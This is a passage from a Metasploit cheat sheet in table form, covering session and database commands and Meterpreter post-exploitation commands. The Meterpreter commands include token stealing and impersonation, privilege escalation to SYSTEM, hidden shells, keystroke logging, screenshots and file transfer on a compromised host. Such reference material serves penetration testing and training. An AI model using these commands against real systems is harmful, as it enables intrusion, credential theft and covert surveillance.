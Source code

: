 | `sessions -K`                                   | Kill all live sessions.                                                                                                                           |
| `sessions -c <cmd>`                             | Execute a command on all live Meterpreter sessions.                                                                                               |
| `sessions -u <sessionID>`                       | Upgrade a normal Win32 shell to a Meterpreter console.                                                                                            |
| `db_create <name>`                              | Create a database to use with database-driven attacks (example: db\_create autopwn).                                                              |
| `db_connect <name>`                             | Create and connect to a database for driven attacks (example: db\_connect autopwn).                                                               |
| `db_nmap`                                       | Use Nmap and place results in a database. (Normal Nmap syntax is supported, such as -sT -v -P0.)                                                  |
| `db_destroy`                                    | Delete the current database.                                                                                                                      |
| `db_destroy <user:password@host:port/database>` | Delete database using advanced options.                                                                                                           |

### Meterpreter Commands

| **Command**                                         | **Description**                                                                               |
| --------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `help`                                              | Open Meterpreter usage help.                                                                  |
| `run <scriptname>`                                  | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory.       |
| `sysinfo`                                           | Show the system information on the compromised target.                                        |
| `ls`                                                | List the files and folders on the target.                                                     |
| `use priv`                                          | Load the privilege extension for extended Meterpreter libraries.                              |
| `ps`                                                | Show all running processes and which accounts are associated with each process.               |
| `migrate <proc. id>`                                | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| `use incognito`                                     | Load incognito functions. (Used for token stealing and impersonation on a target machine.)    |
| `list_tokens -u`                                    | List available tokens on the target by user.                                                  |
| `list_tokens -g`                                    | List available tokens on the target by group.                                                 |
| `impersonate_token <DOMAIN_NAMEUSERNAME>`           | Impersonate a token available on the target.                                                  |
| `steal_token <proc. id>`                            | Steal the tokens available for a given process and impersonate that token.                    |
| `drop_token`                                        | Stop impersonating the current token.                                                         |
| `getsystem`                                         | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.        |
| `shell`                                             | Drop into an interactive shell with all available tokens.                                     |
| `execute -f <cmd.exe> -i`                           | Execute cmd.exe and interact with it.                                                         |
| `execute -f <cmd.exe> -i -t`                        | Execute cmd.exe with all available tokens.                                                    |
| `execute -f <cmd.exe> -i -H`                        | Execute cmd.exe with all available tokens and make it a hidden process.                       |
| `rev2self`                                          | Revert back to the original user you used to compromise the target.                           |
| `reg <command>`                                     | Interact, create, delete, query, set, and much more in the target's registry.                 |
| `setdesktop <number>`                               | Switch to a different screen based on who is logged in.                                       |
| `screenshot`                                        | Take a screenshot of the target's screen.                                                     |
| `upload <filename>`                                 | Upload a file to the target.                                                                  |
| `download <filename>`                               | Download a file from the target.                                                              |
| `keyscan_start`                                     | Start sniffing keystrokes on the remote target.                                               |
| `keyscan_dump`                                      | Dump the remote keys captured on the target.                                                  |